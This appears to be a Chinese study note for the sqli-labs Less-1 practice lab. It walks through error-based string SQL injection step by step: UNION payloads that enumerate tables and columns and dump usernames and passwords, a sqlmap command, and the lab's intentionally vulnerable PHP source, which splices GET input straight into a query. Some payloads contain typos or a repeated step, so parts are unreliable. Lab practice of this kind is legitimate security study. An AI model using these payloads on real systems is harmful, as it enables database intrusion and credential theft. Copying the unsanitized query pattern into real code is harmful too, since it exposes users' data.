

# 基本报错的字符型注入(需要单引号闭合)

## 1、测试注入点(找闭合符) 
### `?id=1 '`
### 出现报错,说明后端SQL语句用单引号拼接输入,存在注入
## 2、判断字段数(列数) 
### 利用order by猜解前端查询了几个字段 :`?id=1' order by 3--+`(页面正常);`?id=1' order by 4--+`(页面报错);说明前端查询了3个字段
### `--+`是注释符
## 3、联合查询(union)找显示位 
### `?id=-1' union select 1,2,3 --+`
### id=-1是为了让前面的查询查不到数据(为空),从而让后面的select 1,2,3的结果显示出来;页面上显示2和3,说明第2和第3个字段的内容会回显到页面
## 4、爆出数据库名和版本 
### `?id=-1' union select 1,database(),version() --+`
### 页面上显示当前数据库名(security)和MySQL版本号(5.7.x)
## 5、爆出表名 
### 利用MySQL自带的information_schema库 :`?id=1' union selct 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`
### 页面显示emails,referers,uagents,users;一般对users表感兴趣
## 6、爆出字段名(列名) 
### 查users表里有哪些列 :`?id=-a union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+`
### 页面显示id,username,password
## 7、爆出账号和密码
### 用冒号的16进制(0x3a)来拼接 :`?id=1' union select 1,group_concat(username,0x3a,password),3 from users --+`


# sqlmap :`sqlmap -u "http://127.0.0.1:8080/Less-1/?id=1" --dbs --batch`


## 判断是否存在注入 :`?id=1' and 1=1 -- qwe`
## 判断字段数 :`?id=1' order by 3 --qwe`
## 判断显错位 :`?id=10' union select 1,2,3 --qwe`
## 判断库名 :`?id=10' union select 1,2,3 --qwe`
## 判断表名 :`?id=10' union select 1,table_name,3 from information_schema,tables where table_schema='security' --qwe`
## 判断列名 :`?id=10'union select 1,column_name,3 from information_schema,columns where table_schema='security' and table_name='emails' -- qwe`
## 判断数据 :`?id=10' union select 1,id,3 from emails -- qwe `



# 源码
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-1 **Error Based- String**</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
</center>
</body>
</html>

```